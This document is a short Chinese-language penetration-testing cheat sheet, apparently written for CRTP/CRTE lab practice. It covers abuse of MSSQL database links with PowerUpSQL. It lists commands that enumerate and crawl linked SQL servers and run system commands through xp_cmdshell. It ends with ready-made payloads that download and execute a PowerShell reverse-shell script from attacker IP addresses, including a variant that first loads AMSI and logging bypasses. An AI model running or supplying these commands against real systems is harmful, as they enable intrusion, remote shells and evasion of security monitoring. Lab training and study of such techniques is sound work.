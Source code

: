 引入：
```
Import-Module .\PowerUpSQL.psd1
```
或者
```
. .\PowerUpSQL.ps1
```


# MSSQL（CRTP,CRTE）

使用PowerupSQL.psd1

## 举当前账号是否有任何可用的mssql链接
```
Get-SQLInstanceDomain | Get-SQLServerInfo powershe-Verbose
```

## 检查当前账号是否有权限进入mssql
```
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded 
```

## 查看指定链接的信息
```
Get-SQLServerLink -Instance us-mssql.us.techcorp.local -Verbose
```

## 自动爬取数据库链接
```
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
```

## 对指定链接执行系统命令
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

## 执行系统命令，返回一个rev shell

简单版本
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.66/Invoke-PowerShellTcp.ps1'')"'
```

绕过AMSI
```
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.138/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.138/Invoke-PowerShellTcpEx.ps1)"'''
```
